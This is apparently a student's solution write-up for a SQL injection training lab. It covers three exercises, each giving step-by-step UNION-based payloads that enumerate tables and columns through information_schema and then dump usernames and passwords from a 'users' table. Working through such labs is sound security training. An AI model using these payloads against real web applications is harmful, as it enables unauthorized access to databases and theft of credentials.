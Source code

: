 DONE BY : J.SAMPAT SRIVATSAV 

<><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><>

Q1:
		payload:
		?id = -1’ union select 1,2,3-- - **"Through this we got to know that everything in the 2nd and 3rd position is reflected in the output"**
		Now if we see the cotents of 'information_schema' ; we can see that there is a table 'tables' in that . It has an attribute 'table_schema' that contains database names and another attribute 			'table_name' that contains names .
		payload:
		?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'-- -
		similarly for columns ; 
		payload:
		?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name = 'users' and table_schema='security'-- - 
		Finally ; this is the correct payload .
		payload:
		?id=-1' union select 1,group_concat(username),group_concat(password)from users-- -

<><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><>

Q2:
		We will find the error if we put ?id=-1'
		payload:
		?id=-1 union select 1,2,3-- -
		Now if we see the cotents of 'information_schema' ; we can see that there is a table 'tables' in that . It has an attribute 'table_schema' that contains database names and another attribute 			'table_name' that contains names.
		payload:
		?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'-- -
		The table 'users' contains details of username and password and can be accessed through the following payload
		payload:
		?id=-1 union select 1,group_concat(COLUMN_NAME),3 from information_schema.columns where table_name='users' and table_schema='security'-- -
		The final payload:
		?id=-1 union select 1,group_concat(username),group_concat(password)from users-- -

<><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><>

Q3:
		This is the payload to know about the details of the databases which was stored . 
		?id=-1') union select 1,2,database()-- -
		This is the payload to get the details of attributes .
		?id=-1') union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'-- -
		Now we will be retrieving from 'users' table .
		?id=-1') union select 1,group_concat(COLUMN_NAME),2 from information_schema.COLUMNS where TABLE_NAME = 'users' and table_schema='security'-- -
		And the final payload is as follows .
		?id=-1') union select 1,group_concat(username),group_concat(password) from security.users-- -

<><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><>
